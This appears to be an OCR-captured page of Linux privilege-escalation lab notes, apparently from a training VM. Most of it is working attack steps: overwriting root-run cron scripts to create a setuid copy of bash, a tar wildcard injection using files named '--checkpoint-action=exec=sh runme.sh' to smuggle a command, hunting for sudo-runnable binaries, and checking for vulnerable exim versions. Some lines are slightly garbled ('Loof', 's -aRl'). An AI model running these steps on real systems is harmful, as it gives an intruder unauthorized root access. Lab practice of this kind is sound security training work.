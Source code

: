 # test
~~~
1. Notice the list of programs that can run via sudo 
2. Loof for any of these:  
  - find 
  - awk 
  - nmap 
  - vim 
~~~
# cron schedule
~~~
s -aRl /etc/cron* | awk '$1 ~ /w.$/' 2>/dev/null 
cron.d 
cron.daily 
cron.deny 
cron.hourly 
cron.monthly 
cron.weekly 
crontab 
 
Linux VM  

1. In command prompt type: cat /etc/crontab  
2. From the output, notice the value of the “PATH” variable 

Exploitation  
Linux VM  

1. In command prompt type: echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh  
2. In command prompt type: chmod +x /home/user/overwrite.sh  
3. Wait 1 minute for the Bash script to execute.  
4. In command prompt type: /tmp/bash -p  
5. In command prompt type: id 
~~~
Linux VM  

1. In command prompt type: cat /etc/crontab 
2. From the output, notice the script “/usr/local/bin/compress.sh”  
3. In command prompt type: cat /usr/local/bin/compress.sh 
4. From the output, notice the wildcard (*) used by ‘tar’. 

Add checkpoint variables to tar: 
1. echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh 
2. touch /home/user/--checkpoint=1 
3. touch /home/user/--checkpoint-action=exec=sh\ runme.sh 
4. Wait for script to execute 
5. /tmp/bash -p 
6. id
~~~
# cron write perm check 
1. echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh 
2. Wait for script to execute 
3. /tmp/bash -p 
4. id
~~~
# Vulnerable exim.
~~~
dpkg -l | grep -i exim ( is version is below 4.86.2 ?) 

Is exim compiled with perl support? 
~~~